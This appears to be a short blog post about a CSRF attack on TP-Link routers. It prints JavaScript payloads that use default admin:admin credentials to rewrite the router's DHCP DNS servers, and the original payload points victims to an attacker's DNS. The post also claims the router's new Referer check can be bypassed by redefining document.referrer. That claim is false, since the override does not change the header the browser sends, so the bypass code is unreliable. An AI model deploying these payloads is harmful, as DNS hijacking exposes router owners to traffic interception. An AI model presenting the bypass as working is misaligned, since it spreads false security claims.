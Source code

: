 In this [blog post](http://www.jakoblell.com/blog/2013/10/30/real-world-csrf-attack-hijacks-dns-server-configuration-of-tp-link-routers-2/), Jakob Lell writes about an attack on tp-link browsers his honeypots picked up on where a CSRF attack is made against TP-Link routers.

In the attack, the attacker uploads javascript to a site that the target visits, which when visited triggers the csrf attack.

The attack code looked like this (wherein the attack changes the DNS settings on the router to point to Google's DNS)

```
document.writeln('<style type="text/css">@import url(http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=106.187.36.85&dnsserver2=8.8.8.8&Save=%B1%A3+%B4%E6);</style>')
```

On a new version of TP-Link, I found they added a server-side protection that checks the referer header (in addition to changing the ip to 192.168.0.1). This can be trivially bypassed in javascript by modifying the attack to look like so:

```
Object.defineProperty(document, "referrer", {get : function(){ return "http://192.168.0.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.0.100&ip2=192.168.0.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=8.8.4.4&dnsserver2=8.8.8.8&Save=Save"; }});

document.writeln('<style type="text/css">@import url(http://admin:admin@192.168.0.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.0.100&ip2=192.168.0.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=8.8.4.4&dnsserver2=8.8.8.8&Save=Save);</style>');
```

Wherein we first set the referrer to an acceptable string, then trigger the attack (with the ip updated).

